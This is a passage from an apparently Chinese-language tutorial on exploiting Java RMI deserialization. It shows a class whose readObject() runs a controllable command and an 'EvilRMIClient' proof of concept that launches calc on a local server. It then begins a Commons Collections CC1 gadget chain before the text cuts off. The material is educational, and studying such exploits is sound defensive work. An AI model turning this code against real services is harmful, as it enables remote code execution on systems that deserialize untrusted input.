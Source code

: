 ```java
        super();
    }

    public String getParam() {
        return param;
    }

    public void setParam(String param) {
        this.param = param;
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Runtime.getRuntime().exec(this.param);
    }
}
```
那么可以通过下面这样的代码来利用它
```java
public class EvilRMIClient {
    public void callRemote(String name) throws RemoteException, NotBoundException {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 9099);
        RemoteService rs = (RemoteService) registry.lookup(name);
        /**
         * Suppose the server has a exploitable Class with a readObject() method
         * and the param is controlled.
         */ 
        Exploitable poc = new Exploitable();
        poc.setParam("calc");
        /**
         * When we call remote method, the remote server will try to deserialize 
         * the Exploitable object we passed and the readObject() was called, 
         * leading the command to be executed.
         */
        rs.doSome(poc);
    }

    public static void main(String[] args) {
        try {
            EvilRMIClient rc = new EvilRMIClient();

            rc.callRemote("server");
        } catch (Exception ex) {
            ex.printStackTrace();
        }
    }
}
```
当然这种情况比较天真，再来看更真实一点的例子，开放的调用接口如下，并且满足`CC1`利用链所需条件
```java
public interface RemoteService extends java.rmi.Remote{
    public void doSome(Object msg) throws RemoteException;
}
```
那么可以通过如下代码进行利用
```java
public class EvilRMIClient {

    public Object create() throws ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchMethodException {
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
```